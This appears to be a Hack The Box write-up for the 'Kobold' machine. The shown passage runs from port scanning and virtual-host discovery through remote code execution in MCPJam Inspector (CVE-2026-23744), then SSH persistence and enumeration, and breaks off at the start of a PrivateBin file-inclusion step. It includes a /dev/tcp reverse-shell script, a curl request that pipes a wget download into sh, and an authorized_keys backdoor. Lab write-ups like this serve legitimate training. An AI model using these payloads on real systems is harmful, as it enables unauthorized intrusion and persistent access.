## Table of Content

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 443/TCP](#Enumeration-of-Port-443TCP)
- [Virtual Host (VHOST) Enumeration](#Virtual-Host-VHOST-Enumeration)
    - [bin.kobold.htb Enumeration](#binkoboldhtb-Enumeration)
    - [mcp.kobold.htb Enumeration](#mcpkoboldhtb-Enumeration)
- [Initial Access](#Initial-Access)
    - [CVE-2026-23744: MCP Jam Inspector Remote Code Execution (RCE)](#CVE-2026-23744-MCP-Jam-Inspector-Remote-Code-Execution-RCE)
- [Persistence](#Persistence)
- [Enumeration (ben)](#Enumeration-ben)
- [Access to Arcane](#Access-to-Arcane)
    - [CVE-2025-64714: PrivateBin Local File Inclusion (LFI) through Template Switching](#CVE-2025-64714-PrivateBin-Local-File-Inclusion-LFI-through-Template-Switching)
- [Privilege Escalation to root (intended)](#Privilege-Escalation-to-root-intended)
    - [Privileged Container Escape through Arcane](#Privileged-Container-Escape-through-Arcane)
- [Privilege Escalation to root (unintended)](#Privilege-Escalation-to-root-unintended)
    - [Privileged Container Escape through Shadow Group Membership Misconfiguration](#Privileged-Container-Escape-through-Shadow-Group-Membership-Misconfiguration)
- [root.txt](#roottxt)

## Summary

The box starts with `SSH` on port `22/TCP`, `HTTP` on port `80/TCP` redirecting to `HTTPS` on port `443/TCP`, and an additional service on port `3552/TCP`. Virtual host discovery reveals two subdomains: `bin.kobold.htb` running `PrivateBin` and `mcp.kobold.htb` running `MCPJam Inspector`.

The `MCPJam Inspector` service is vulnerable to `CVE-2026-23744` allowing `Remote Code Execution` (`RCE`) through the `/api/mcp/connect` endpoint. Exploiting this vulnerability grants access as the `ben` user and enables `Initial Access`.

For access to the internal `Arcane` container management application enumeration reveals a `PrivateBin` instance running in a `Docker` container. The `PrivateBin` configuration is vulnerable to `CVE-2025-64714` a `Local File Inclusion` (`LFI`) vulnerability through `Template Switching`. Exploiting this vulnerability allows reading arbitrary files on the filesystem including the `Arcane` configuration file containing credentials for the `privatebin` user which also work for the `arcane` account on the internal application.

For the intended `Privilege Escalation` path access to `Arcane` allows managing `Docker` containers. Creating a new privileged container with the host filesystem mounted and privileged security settings grants root access to the host system through container escape.

For the unintended `Privilege Escalation` path enumeration reveals that `ben` is a member of the `operator` group which has read access to `/privatebin-data`. The `alice` user is also a member of both `operator` and `docker` groups. Using `newgrp` to switch to the `docker` group allows running privileged containers and mounting the host filesystem achieving root access through container escape.

## Reconnaissance

### Port Scanning

We began with our initial port scan using `Nmap` with service version detection.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.13.145
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-21 20:09 +0100
Nmap scan report for 10.129.13.145
Host is up (0.037s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8c:45:12:36:03:61:de:0f:0b:2b:c3:9b:2a:92:59:a1 (ECDSA)
|_  256 d2:3c:bf:ed:55:4a:52:13:b5:34:d2:fb:8f:e4:93:bd (ED25519)
80/tcp  open  http     nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
443/tcp open  ssl/http nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
| ssl-cert: Subject: commonName=kobold.htb
| Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb
| Not valid before: 2026-03-15T15:08:55
|_Not valid after:  2125-02-19T15:08:55
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.45 seconds
```

The scan revealed `SSH`, an `nginx` web server that redirected to `https://kobold.htb/`, and an `SSL/TLS` certificate with a wildcard for `*.kobold.htb` suggesting additional subdomains might exist. Since the default ports scan might have missed services we ran a full port scan.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.13.145
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-21 20:13 +0100
Nmap scan report for kobold.htb (10.129.13.145)
Host is up (0.027s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8c:45:12:36:03:61:de:0f:0b:2b:c3:9b:2a:92:59:a1 (ECDSA)
|_  256 d2:3c:bf:ed:55:4a:52:13:b5:34:d2:fb:8f:e4:93:bd (ED25519)
80/tcp   open  http     nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
443/tcp  open  ssl/http nginx 1.24.0 (Ubuntu)
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
|_http-title: Kobold Operations Suite
| ssl-cert: Subject: commonName=kobold.htb
| Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb
| Not valid before: 2026-03-15T15:08:55
|_Not valid after:  2125-02-19T15:08:55
3552/tcp open  http     Golang net/http server
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, no-store, must-revalidate
|     Content-Length: 2081
|     Content-Type: text/html; charset=utf-8
|     Expires: 0
|     Pragma: no-cache
|     Date: Sat, 21 Mar 2026 19:14:17 GMT
|     <!doctype html>
|     <html lang="%lang%">
|     <head>
|     <meta charset="utf-8" />
|     <meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate" />
|     <meta http-equiv="Pragma" content="no-cache" />
|     <meta http-equiv="Expires" content="0" />
|     <link rel="icon" href="/api/app-images/favicon" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, viewport-fit=cover" />
|     <link rel="manifest" href="/app.webmanifest" />
|     <meta name="theme-color" content="oklch(1 0 0)" media="(prefers-color-scheme: light)" />
|     <meta name="theme-color" content="oklch(0.141 0.005 285.823)" media="(prefers-color-scheme: dark)" />
|_    <link rel="modu
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3552-TCP:V=7.98%I=7%D=3/21%Time=69BEEE09%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,8FF,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\
SF:x20bytes\r\nCache-Control:\x20no-cache,\x20no-store,\x20must-revalidate
SF:\r\nContent-Length:\x202081\r\nContent-Type:\x20text/html;\x20charset=u
SF:tf-8\r\nExpires:\x200\r\nPragma:\x20no-cache\r\nDate:\x20Sat,\x2021\x20
SF:Mar\x202026\x2019:14:17\x20GMT\r\n\r\n<!doctype\x20html>\n<html\x20lang
SF:=\"%lang%\">\n\t<head>\n\t\t<meta\x20charset=\"utf-8\"\x20/>\n\t\t<meta
SF:\x20http-equiv=\"Cache-Control\"\x20content=\"no-cache,\x20no-store,\x2
SF:0must-revalidate\"\x20/>\n\t\t<meta\x20http-equiv=\"Pragma\"\x20content
SF:=\"no-cache\"\x20/>\n\t\t<meta\x20http-equiv=\"Expires\"\x20content=\"0
SF:\"\x20/>\n\t\t<link\x20rel=\"icon\"\x20href=\"/api/app-images/favicon\"
SF:\x20/>\n\t\t<meta\x20name=\"viewport\"\x20content=\"width=device-width,
SF:\x20initial-scale=1,\x20maximum-scale=1,\x20viewport-fit=cover\"\x20/>\
SF:n\t\t<link\x20rel=\"manifest\"\x20href=\"/app\.webmanifest\"\x20/>\n\t\
SF:t<meta\x20name=\"theme-color\"\x20content=\"oklch\(1\x200\x200\)\"\x20m
SF:edia=\"\(prefers-color-scheme:\x20light\)\"\x20/>\n\t\t<meta\x20name=\"
SF:theme-color\"\x20content=\"oklch\(0\.141\x200\.005\x20285\.823\)\"\x20m
SF:edia=\"\(prefers-color-scheme:\x20dark\)\"\x20/>\n\t\t\n\t\t<link\x20re
SF:l=\"modu")%r(HTTPOptions,8FF,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\
SF:x20bytes\r\nCache-Control:\x20no-cache,\x20no-store,\x20must-revalidate
SF:\r\nContent-Length:\x202081\r\nContent-Type:\x20text/html;\x20charset=u
SF:tf-8\r\nExpires:\x200\r\nPragma:\x20no-cache\r\nDate:\x20Sat,\x2021\x20
SF:Mar\x202026\x2019:14:17\x20GMT\r\n\r\n<!doctype\x20html>\n<html\x20lang
SF:=\"%lang%\">\n\t<head>\n\t\t<meta\x20charset=\"utf-8\"\x20/>\n\t\t<meta
SF:\x20http-equiv=\"Cache-Control\"\x20content=\"no-cache,\x20no-store,\x2
SF:0must-revalidate\"\x20/>\n\t\t<meta\x20http-equiv=\"Pragma\"\x20content
SF:=\"no-cache\"\x20/>\n\t\t<meta\x20http-equiv=\"Expires\"\x20content=\"0
SF:\"\x20/>\n\t\t<link\x20rel=\"icon\"\x20href=\"/api/app-images/favicon\"
SF:\x20/>\n\t\t<meta\x20name=\"viewport\"\x20content=\"width=device-width,
SF:\x20initial-scale=1,\x20maximum-scale=1,\x20viewport-fit=cover\"\x20/>\
SF:n\t\t<link\x20rel=\"manifest\"\x20href=\"/app\.webmanifest\"\x20/>\n\t\
SF:t<meta\x20name=\"theme-color\"\x20content=\"oklch\(1\x200\x200\)\"\x20m
SF:edia=\"\(prefers-color-scheme:\x20light\)\"\x20/>\n\t\t<meta\x20name=\"
SF:theme-color\"\x20content=\"oklch\(0\.141\x200\.005\x20285\.823\)\"\x20m
SF:edia=\"\(prefers-color-scheme:\x20dark\)\"\x20/>\n\t\t\n\t\t<link\x20re
SF:l=\"modu");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.34 seconds
```

The full port scan discovered an additional service running on port `3552/TCP` identified as a `Golang net/http server`. We added the hostname to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.13.145   kobold.htb
```

### Enumeration of Port 443/TCP

We accessed the web service and used `WhatWeb` to identify technologies in use.

- [https://kobold.htb/](https://kobold.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb https://kobold.htb/
https://kobold.htb/ [200 OK] Country[RESERVED][ZZ], Email[admin@kobold.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.13.145], Title[Kobold Operations Suite], nginx[1.24.0]
```

The website displayed a landing page for "Kobold Operations Suite" with contact information and an email address `admin@kobold.htb`.



## Virtual Host (VHOST) Enumeration

Since the `SSL` certificate included a wildcard for `*.kobold.htb` we performed virtual host discovery using `ffuf` to identify additional subdomains.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.kobold.htb" -u https://kobold.htb/ --fs 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://kobold.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.kobold.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

bin                     [Status: 200, Size: 24402, Words: 1218, Lines: 386, Duration: 147ms]
mcp                     [Status: 200, Size: 466, Words: 57, Lines: 15, Duration: 100ms]
:: Progress: [151265/151265] :: Job [1/1] :: 1418 req/sec :: Duration: [0:02:12] :: Errors: 0 ::
```

We discovered two subdomains: `bin` and `mcp`. We added both to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.13.145   kobold.htb
10.129.13.145   bin.kobold.htb
10.129.13.145   mcp.kobold.htb
```

### bin.kobold.htb Enumeration

On the first subdomain we repeated our steps for the enumeration.

- [https://bin.kobold.htb/](https://bin.kobold.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb https://bin.kobold.htb/
https://bin.kobold.htb/ [200 OK] Bootstrap[5.3.8], Cookies[template], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.13.145], JQuery[3.7.1], Open-Graph-Protocol, PasswordField, Script[text/javascript], Title[PrivateBin], UncommonHeaders[content-security-policy,cross-origin-resource-policy,cross-origin-embedder-policy,permissions-policy,referrer-policy,x-content-type-options], X-Frame-Options[deny], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx[1.24.0]
```

The subdomain revealed a `PrivateBin` instance used for securely sharing encrypted text and files.



### mcp.kobold.htb Enumeration

And last but not least we also checked the second subdomain for potential attack vectors.

- [https://mcp.kobold.htb/](https://mcp.kobold.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb https://mcp.kobold.htb/
https://mcp.kobold.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.13.145], Script[module], Title[MCPJam Inspector], UncommonHeaders[access-control-allow-credentials], nginx[1.24.0]
```

The subdomain showed an `MCPJam Inspector` interface used for debugging `Model Context Protocol` (`MCP`) servers.



## Initial Access

### CVE-2026-23744: MCP Jam Inspector Remote Code Execution (RCE)

Research revealed that `MCPJam Inspector` was vulnerable to `CVE-2026-23744` allowing `Remote Code Execution` (`RCE`) through the `/api/mcp/connect` endpoint. The vulnerability occurs because the application accepts user-supplied commands and arguments without proper validation allowing arbitrary command execution.

- [https://github.com/MCPJam/inspector/security/advisories/GHSA-232v-j27c-5pp6](https://github.com/MCPJam/inspector/security/advisories/GHSA-232v-j27c-5pp6)

First we prepared a reverse shell script on our attack machine and served it using a `Python HTTP Webserver`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Kobold/serve]
└─$ cat x 
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.16.10/9001 0>&1'
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Kobold/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Next we modified the `Proof of Concept` (`PoC`) payload that exploits the vulnerability by passing shell commands through the `command` and `args` parameters.

```shell
┌──(kali㉿kali)-[~]
└─$ curl -sk https://mcp.kobold.htb/api/mcp/connect -H "Content-Type: application/json" -d '{"serverConfig":{"command":"sh","args":["-c","wget -qO- http://10.10.16.10/x | sh"],"env":{}},"serverId":"foobar"}'
```

The payload executed successfully granting us a shell as `ben`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Kobold/serve]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.13.145] 34642
bash: cannot set terminal process group (1538): Inappropriate ioctl for device
bash: no job control in this shell
ben@kobold:/usr/local/lib/node_modules/@mcpjam/inspector$
```

## Persistence

For convenience we set up `SSH` key-based authentication to maintain persistent access.

```shell
ben@kobold:/usr/local/lib/node_modules/@mcpjam/inspector$ cd ~
```

```shell
ben@kobold:~$ mkdir .ssh
```

We generated an `SSH` key pair on our attack machine and added the public key to `ben`'s authorized keys.

```shell
ben@kobold:~/.ssh$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB8r4vPbn2m6ycgd7n22IPKG9aN7kviP37uw03woICNN" > authorized_keys
```

Now we could authenticate via `SSH` as `ben`.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh ben@kobold.htb
The authenticity of host 'kobold.htb (10.129.13.145)' can't be established.
ED25519 key fingerprint is: SHA256:40/zj76oPRapv/WPdzkr3IQG5WClHA5K8tlecZuimiI
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'kobold.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-106-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Mar 21 07:37:15 PM UTC 2026

  System load:  0.0               Processes:             228
  Usage of /:   58.4% of 9.96GB   Users logged in:       0
  Memory usage: 11%               IPv4 address for eth0: 10.129.13.145
  Swap usage:   0%

This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento

Use of this system is acceptance of the OS vendor EULA and License Agreements.
ben@kobold:~$
```

## Enumeration (ben)

With stable `SSH` access as `ben` we continued our enumeration. We noticed `ben` was a member of the `operator` group which might grant access to specific directories or files.

```shell
ben@kobold:~$ id
uid=1001(ben) gid=1001(ben) groups=1001(ben),37(operator)
```

We checked for other users on the system and identified another user `alice` with a login shell.

```shell
ben@kobold:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
ben:x:1001:1001::/home/ben:/bin/bash
dnsmasq:x:999:65534:dnsmasq:/var/lib/misc:/usr/sbin/nologin
alice:x:1002:1002::/home/alice:/bin/bash
_laurel:x:996:988::/var/log/laurel:/bin/false
```

| Username |
| -------- |
| alice    |

The next check was for listening ports to understand what services were running locally. Port `8080/TCP` was listening on localhost which might be the `PrivateBin` container or another internal service.

```shell
ben@kobold:~$ ss -tulpn
Netid                                     State                                      Recv-Q                                     Send-Q                                                                           Local Address:Port                                                                            Peer Address:Port                                     Process                                                              
udp                                       UNCONN                                     0                                          0                                                                                   127.0.0.54:53                                                                                   0.0.0.0:*                                                                                                             
udp                                       UNCONN                                     0                                          0                                                                                127.0.0.53%lo:53                                                                                   0.0.0.0:*                                                                                                             
udp                                       UNCONN                                     0                                          0                                                                                      0.0.0.0:68                                                                                   0.0.0.0:*                                                                                                             
tcp                                       LISTEN                                     0                                          4096                                                                             127.0.0.53%lo:53                                                                                   0.0.0.0:*                                                                                                             
tcp                                       LISTEN                                     0                                          511                                                                                    0.0.0.0:80                                                                                   0.0.0.0:*                                                                                                             
tcp                                       LISTEN                                     0                                          4096                                                                                   0.0.0.0:22                                                                                   0.0.0.0:*                                                                                                             
tcp                                       LISTEN                                     0                                          511                                                                                    0.0.0.0:443                                                                                  0.0.0.0:*                                                                                                             
tcp                                       LISTEN                                     0                                          4096                                                                                 127.0.0.1:8080                                                                                 0.0.0.0:*                                                                                                             
tcp                                       LISTEN                                     0                                          511                                                                                  127.0.0.1:6274                                                                                 0.0.0.0:*                                         users:(("node",pid=1617,fd=33))                                     
tcp                                       LISTEN                                     0                                          4096                                                                                 127.0.0.1:45539                                                                                0.0.0.0:*                                                                                                             
tcp                                       LISTEN                                     0                                          4096                                                                                127.0.0.54:53                                                                                   0.0.0.0:*                                                                                                             
tcp                                       LISTEN                                     0                                          4096                                                                                      [::]:22                                                                                      [::]:*                                                                                                             
tcp                                       LISTEN                                     0                                          4096                                                                                         *:3552                                                                                       *:*
```

We explored the root directory looking for any unusual directories and found `/privatebin-data` owned by `root:operator` with `drwxrwx---` permissions meaning the `operator` group had full access. Since `ben` was a member of the `operator` group we could access this directory.

```shell
ben@kobold:~$ ls -la /
total 81
drwxr-xr-x  22 root root      4096 Mar 16 20:57 .
drwxr-xr-x  22 root root      4096 Mar 16 20:57 ..
drwxr-xr-x   3 root root      4096 Mar 16 20:57 app
lrwxrwxrwx   1 root root         7 Apr 22  2024 bin -> usr/bin
drwxr-xr-x   4 root root      1024 Mar 15 21:26 boot
dr-xr-xr-x   2 root root      4096 Mar 15 21:23 cdrom
drwxr-xr-x  20 root root      4040 Mar 21 19:08 dev
drwxr-xr-x 117 root root      4096 Mar 15 21:23 etc
drwxr-xr-x   4 root root      4096 Mar 15 21:23 home
lrwxrwxrwx   1 root root         7 Apr 22  2024 lib -> usr/lib
lrwxrwxrwx   1 root root         9 Apr 22  2024 lib64 -> usr/lib64
drwx------   2 root root     16384 Feb 21  2025 lost+found
drwxr-xr-x   2 root root      4096 Mar 15 21:23 media
drwxr-xr-x   4 root root      4096 Mar 15 21:23 mnt
drwxr-xr-x   3 root root      4096 Mar 15 21:23 opt
drwxrwx---   5 root operator  4096 Mar 15 21:23 privatebin-data
dr-xr-xr-x 288 root root         0 Mar 21 19:08 proc
drwx------   7 root root      4096 Mar 21 19:09 root
drwxr-xr-x  31 root root       980 Mar 21 19:37 run
lrwxrwxrwx   1 root root         8 Apr 22  2024 sbin -> usr/sbin
drwxr-xr-x   2 root root      4096 Feb 21  2025 snap
drwxr-xr-x   2 root root      4096 Mar 15 21:23 srv
dr-xr-xr-x  13 root root         0 Mar 21 19:41 sys
drwxrwxrwt  15 root root      4096 Mar 21 19:39 tmp
drwxr-xr-x  12 root root      4096 Feb 16  2025 usr
drwxr-xr-x  14 root root      4096 Feb 15 10:26 var
```

The `cfg` directory was owned by `root` with group ID `82` and had `drwxr-x---` permissions. We couldn't access this directory yet but the `data` directory had world-writable permissions. We explored what files were accessible.

```shell
ben@kobold:/privatebin-data$ ls -la
total 20
drwxrwx---  5 root operator 4096 Mar 15 21:23 .
drwxr-xr-x 22 root root     4096 Mar 16 20:57 ..
drwxrwx---  2 root operator 4096 Mar 15 21:23 certs
drwxr-x---  2 root       82 4096 Mar 15 21:23 cfg
drwxrwxrwx  5 root operator 4096 Mar 15 21:23 data
```

The `data` directory appeared to be the `PrivateBin` data storage with various `.php` files and subdirectories. However accessing the actual paste data was blocked. Since we had write access to `/privatebin-data/data` we realized we might be able to exploit the `PrivateBin` configuration.

```shell
ben@kobold:/privatebin-data$ find .
.
./certs
./certs/key.pem
./certs/cert.pem
./cfg
find: ‘./cfg’: Permission denied
./data
./data/purge_limiter.php
./data/bd
./data/bd/b5
./data/.htaccess
./data/e3
find: ‘./data/e3’: Permission denied
./data/traffic_limiter.php
./data/12
find: ‘./data/12’: Permission denied
./data/salt.php
```

## Access to Arcane

### CVE-2025-64714: PrivateBin Local File Inclusion (LFI) through Template Switching

Research revealed that `PrivateBin` versions with template selection enabled are vulnerable to `CVE-2025-64714` allowing `Local File Inclusion` (`LFI`) through `Template Switching`. The vulnerability occurs because the application uses a session cookie to store the template choice and doesn't properly validate the template path allowing path traversal.

- [https://github.com/PrivateBin/PrivateBin/security/advisories/GHSA-g2j9-g8r5-rg82](https://github.com/PrivateBin/PrivateBin/security/advisories/GHSA-g2j9-g8r5-rg82)

Since we had write access to `/privatebin-data/data` the assumption was that we should be able to create a `PHP` web shell there. To get a proper request which we then could intercept using `Burp Suite` we created a temporary paste.

